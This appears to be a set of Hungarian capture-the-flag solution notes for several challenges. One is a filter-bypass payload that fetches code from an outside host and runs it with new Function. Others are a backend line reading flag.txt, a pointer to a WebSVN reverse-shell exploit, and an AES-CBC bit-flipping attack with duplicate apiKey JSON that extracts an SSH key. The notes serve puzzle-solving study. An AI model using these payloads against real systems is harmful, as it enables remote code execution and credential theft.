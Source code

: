
bonk:
- az alabbi atmegy a szuresen, letolt egy tetszoleges filet, annak tartalmat kieertekeli es kiirja a valaszt a consolera:
fetch("https://csokavar.hu/x.x").then(d => d.text().then(d=>console.log(new Function(d)()))

- a 'backenden' az alabbi javascriptet helyezzuk el:

console.log(require('fs').readFileSync('flag.txt', 'ascii'));


websvn:
itt egy exploit a kerdeses websvn verziohoz:
https://www.exploit-db.com/exploits/50042
ezzel reverse shellt lehet nyitni, a flag.txt a / konyvtarban talalhato.




- megtalaltam a floppy.js-t a vm kodjaban. 
- sikerult deobfuszkalni: https://deobfuscate.relative.im/
- az eredmenyben benne van a flag a feladat elso felehez, es egy ssh kulcs a node felhasznalohoz, amivel be lehet lepni a vm-re.
----------
- a deobfuszkalt floppy.js mukodese alapjan akkor is megoldhato a feladat ha nem ismerjuk a konkret forrast a flag-gel.
- a szerver egy jsont var, amit aes-256 cbc-vel titkositva visszakuld, masodjara ezt a titkositott adatot varja.
- a fenti titkositas nem garantalja az uzenet integritasat, ha benne az egyik aes blokkban egy bitet atbillentunk, akkor
az adott blokk decryptalasa szemetet eredmenyez, a kovetkezo blokkban pedig ugyanaz a bit az ellenkezojere billen.
- ezt felhasznalva az alabbi formatumu jsont kuldunk, figyeljuk meg hogy 2 apiKey mezo van benne:
{"apiKey":"1337d74c985b01ab9d4f996690a8dde658ec307313c1a521810bdcff6d964b4e", "x":"qqqqqqqqqqqqqqqq","apiKey":"","operation":"getSshKey" }
- a szerver a masodik apiKeyt fogja vizsgalni, es mivel nem szerepel benne a "1337" elfogadja, es titkositja. 
- a visszakapott cryptextben atbillentunk a 180-adik byteon egy bitet, es ezt kuldjuk vissza a masodik lepesben.
- ha minden jol megy (nehany probalkozas utan), a kovetkezo formatumu lesz a decryptalt plaintext:

{"apiKey":"1337d74c985b01ab9d4f996690a8dde658ec307313c1a521810bdcff6d964b4e", "x":"qqqqqqqq!@#$%%#$","apiLey":"","operation":"getSshKey" }

- figyeljuk meg hogy az x tartalma elromlott, es a masodik "apiKey" "apiLey"-re valtozott, igy mar csak egy apiKey van a json-ban, az eredeti kulcs.
- azert kell tobbszor probalkozni mert a kapott "szemet" miatt nem mindig lesz valid a JSON.
- a szerver elfogadja az apikeyt es lefuttatja oparationt, visszaadja az ssh kulcsot vagy a flaget.